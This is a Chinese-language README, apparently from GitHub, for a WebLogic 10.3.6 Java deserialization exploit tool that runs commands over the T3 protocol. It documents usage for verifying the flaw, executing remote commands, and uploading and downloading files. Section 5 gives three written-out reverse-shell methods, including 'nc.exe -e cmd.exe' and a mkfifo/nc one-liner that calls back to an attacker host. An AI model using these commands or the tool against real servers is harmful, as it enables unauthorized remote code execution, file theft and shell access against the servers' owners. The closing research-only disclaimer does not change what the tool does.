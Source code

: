 # weblogic unserialize exploit

**java反序列化漏洞的weblogic exploit命令回显exp**

![exploit](exploit.png)

### 1.依赖组件
+ python 2.7
+ java

### 2. 程序说明
+ exploit方法来源于Freebuf的”Java反序列化漏洞之weblogic本地利用实现篇”，基于rebeyond大牛的研究和反编译WebLogic_EXP.jar实现的。

+ 与rebeyond的方法相比，只提取了WebLogic_EXP.jar中用到的少数几个java class，使用python脚本来实现exploit。

### 3.使用说明 

+ python exp:

```bash
weblogic.py [-h] -u HOST -p PORT -os {win,linux} -t {verify,exploit}
                   [--silent]

optional arguments:
  -h, --help            show this help message and exit
  -u HOST, --host HOST  weblogic host
  -p PORT, --port PORT  host port
  -os {win,linux}, --os_type {win,linux}
                        os type
  -t {verify,exploit,reverse_shell}, --exp_type {verify,exploit,reverse_shell}
                        exploit type; verify to check the vul,the exploit mode
                        can run cmd and get the result
                        reverse_shell can get shell
  --silent              don't show the verbose message
 
 verify :只执行一次whoami命令，验证是否漏洞存在
 exploit:远程命令执行模式，运行putfile、getfile和命令远程运行和回显
 reverse_shell:反弹shell（需要设定--LHOS和--LPORT参数）
 --LHOST LHOST         reverse shell to the host ip
 --LPORT LPORT         reverse shell to host port
 
 exploit模式下可以进行文件的下传和下载：	
 		上传文件：putfile [localfile] [remotefile]
	    下载文件：getfile [remotefile] [localfile]
		
```
+ 远程执行命令是通过java的RMI来实现的

```bash
java -jar shellApp.jar [host] [port] [os] [cmd]
	OS:win|linux
	CMD: putfile [localfile] [remotefile]
		 getfile [remotefile] [localfile]
		 [windows or linux cmd]
```

+ 程序在windows/linux/mac下测试通过，weblogic版本为10.3.6。

### 4.payload_bin说明

+ payload_bin下面的各种payload是用于向weblogic通过t3协议发送的反序列化内容，由通过执行genPayload.class产生的，执行命令为：
	
		java -jar genPayload.jar [OS] [Payload_Type]
			OS:win|linux
			Payload_Type:upload_inst|inst|upload_uninst|uninst|delete|upload_reverse|reverse
		
### 5.反弹shell
+ 方法一：

```bash
1、在本机上监听，等待shell反弹
		
		nc -l 8080
		
2、命令行反弹shell
		
		./weblogic.py -u 192.168.56.104 -p 7001 -os win -t reverse_shell --LHOST 192.168.56.101 --LPORT 8080
		
		--LHOST与--LPORT分别是要反弹获得shell的主机地址和端口

本方法是采用t3协议直接将java程序发包到服务器上后直接反弹shell，是最方便的一种。感谢Rstar提供的实现，我稍做了修改以匹配exp的实现。

```

+ 方法二：

```bash

1、用weblogic.py exploit到weblogic服务器

2、上传payload_bin目录下的的nc.exe（windows主机）;或修改reverse_shell.py的LHOST和LPORT（linux主机）后上传到服务器。

		exploit>putfile payload_bin/nc.exe c:\windows\temp\nc.exe (windows主机）
		exploit>putfile payload_bin/reverse_shell.py /tmp/rs.py (linux主机)

3、在本机上监听，等待shell反弹

		nc -l 8080
		
4、通过exploit执行远程命令反弹shell

		exploit>c:\windows\temp\nc.exe -e cmd.exe remote_ip 8080 (windows主机）
		exploit>python /tmp/rs.py (linux主机)
		
```
+ 方法三：（linux）

```bash
1、在本机上监听，等待shell反弹
		
		nc -l 8080
		
2、通过exploit执行远程命令反弹shell
		
		exploit>rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc remote_ip 8080 >/tmp/f


```
	

### 6.其它

+ 本程序只用于技术研究和个人使用，来源于网络、分享于网络，欢迎各位大牛继续完善

+ hancool@163.com 2015.12
